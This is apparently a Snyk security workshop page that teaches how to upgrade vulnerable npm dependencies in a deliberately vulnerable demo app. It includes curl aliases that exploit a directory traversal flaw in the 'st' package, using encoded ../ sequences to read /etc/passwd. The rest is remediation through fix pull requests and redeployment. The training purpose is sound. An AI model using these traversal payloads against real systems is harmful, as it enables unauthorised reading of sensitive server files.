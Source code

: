 ```yaml
---
description: >-
  Now we'll find and fix vulnerabilities in the Open Source components that make
  up our application.
---
```


# Upgrade or patch vulnerable application dependencies

## Optional: The risks of vulnerable dependencies

To see an example of the risks a vulnerable open source component introduces to our running application, we're going to exploit one of those vulnerabilities. The `exploits` folder contains exploits for many of the vulnerable dependencies.

Let's execute an exploit against our running application. We'll demonstrate how the Directory Traversal vulnerability in the `st` package can lead to sensitive information leakage. Start by navigating to the exploits folder and sourcing the `st-exploits.sh` file.

```
cd exploits && source st-exploits.sh
```

This sets up a series of aliases to demonstrate the exploit. They are shown below:

```
st1="curl $GOOF_HOST/public/about.html"

# Directory listing (not necessary)
st2="curl $GOOF_HOST/public/"

# Failed ../
st3="curl $GOOF_HOST/public/../../../"

# Exploit start
st4="curl $GOOF_HOST/public/%2e%2e/%2e%2e/%2e%2e/"

# Exploit full
st5="curl $GOOF_HOST/public/%2e%2e/%2e%2e/%2E%2E/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
```

The good stuff is in `st4` and `st5`, where we see the leaked contents of the `/etc/passwd` file.

![](https://partner-workshop-assets.s3.us-east-2.amazonaws.com/st-exploit.png)

Yikes. And this is just one example. Feel free to play around with the other exploits in this folder, the sample application is **very** vulnerable (for now!).

## Start fixing Open Source Vulnerabilities!

In Snyk, this, and other vulnerabilities in our dependencies, are shown under the `package.json` file. Snyk accelerates fixes via Pull Requests to upgrade dependencies to non-vulnerable versions.

{% hint style="info" %}
Notice that the Dockerfile has less vulnerabilities! Snyk auto-retested it after our changes.
{% endhint %}

![](https://partner-workshop-assets.s3.us-east-2.amazonaws.com/snyk-ossproject.png)

## Fix Vulnerabilities from the Snyk UI

### Step 1: Explore a vulnerability in more detail <a href="step-1-explore-a-vulnerability-in-more-detail" id="step-1-explore-a-vulnerability-in-more-detail"></a>

Click into the `package.json` project, and Scroll down to see the list of vulnerabilities present, ordered by [our proprietary Priority Score](https://snyk.io/blog/snyk-priority-score/). For each Vulnerability, Snyk displays:

* The module that introduced it and, in the case of transitive dependencies, its direct dependency,
* Details on the path and proposed fixes, as well as the specific vulnerable function.

We'll start with the first vulnerability, **zip slip**, since it's ordered the highest. The exploit for zip-slip is also available in the `exploits` folder in case you want to try it out before patching it.

![](https://gblobscdn.gitbook.com/assets%2F-M3ww0VUnNWDc-FwnwVl%2F-MOHOD925AinvVslRYnk%2F-MOHQWZMgK6Br-LeO6xL%2FSnyk-Vuln.png?alt=media\&token=42d70198-322b-463e-b107-f54c12072ec7)

### Step 2: Create a Fix Pull Request in Snyk <a href="step-2-create-a-fix-pull-request-in-snyk" id="step-2-create-a-fix-pull-request-in-snyk"></a>

Since a fix is available, Snyk can automatically upgrade the vulnerable dependency to a non-vulnerable version through a Pull Request. Click on "Fix this vulnerability" to do so.

![](https://partner-workshop-assets.s3.us-east-2.amazonaws.com/snyk-fixvuln.png)

On the next screen, you'll be able to confirm the issue to fix with this PR.

![](https://partner-workshop-assets.s3.us-east-2.amazonaws.com/snyk-fixpropen.png)

Looks good! Go ahead and open the PR. Once it's ready, you'll be taken to the PR in GitHub, where you can review the changes in the file diff view:

![](https://partner-workshop-assets.s3.us-east-2.amazonaws.com/gh-prdiff.png)

Now, go ahead and merge the PR! Back in Snyk, we can appreciate that our `package.json` file has 1 less High Severity Vulnerability.

![](https://partner-workshop-assets.s3.us-east-2.amazonaws.com/snyk-postfixpr.png)

If you tried the zip-slip exploit, `git pull` the code to bring your local copy up to date with GitHub and try the exploit again. You'll notice it no longer works.

## Fix Vulnerabilities locally with Snyk

Fix Pull Requests are great for fixing individual vulnerabilities, and Snyk can [automatically open Pull Requests](https://support.snyk.io/hc/en-us/articles/360006581898-Upgrading-dependencies-with-automatic-PRs) when new fixes to vulnerabilities are published. You can also fix vulnerabilities manually.

Using the `st` package exploit demonstrated above. Find the `Directory Traversal` vulnerability by looking through the list of issues in Snyk. See that updating `st` to version `0.2.5` fixes this issue.

![](https://partner-workshop-assets.s3.us-east-2.amazonaws.com/snyk-fixstvuln.png)

Make this change in your package.json file.

![](https://partner-workshop-assets.s3.us-east-2.amazonaws.com/st-fixvuln.png)

To ensure this isn't exploitable, re-build and re-deploy the container to Kubernetes.

```
# Build the new image
docker build $DockerId/goof:dev .

# Push to Docker Hub
docker push $DockerId/goof:dev

# Scale the deployment down and up
kubectl scale deployment goof --replicas=0
kubectl scale deployment goof --replicas=1
```

Now try the exploit again. It should fail spectacularly.

![](https://partner-workshop-assets.s3.us-east-2.amazonaws.com/post-stfix.png)

## Optional: Use what you learned to fix all vulnerabilities

Either with Fix Pull Requests, or using the information in Snyk to modify your package manager manifest, continue fixing vulnerabilities until you've knocked out the High Severity Vulnerabilities that have a fix available. Some additional resources that can help:

* Snyk IDE Plugins: If you're using JetBrains IDEs, Eclipse, or VS Code, check out [our plugins](https://support.snyk.io/hc/en-us/sections/360001138118-IDE-tools) that show vulnerability and fix information right within the IDE.&#x20;
* For Node applications, like this one, check out [Snyk Wizard](https://support.snyk.io/hc/en-us/articles/360003851357-Manage-vulnerability-results-with-the-Snyk-CLI-wizard)!&#x20;

Once you're ready, continue on to the next section to learn how to fix configuration issues in the Kubernetes manifests that deploy the application!
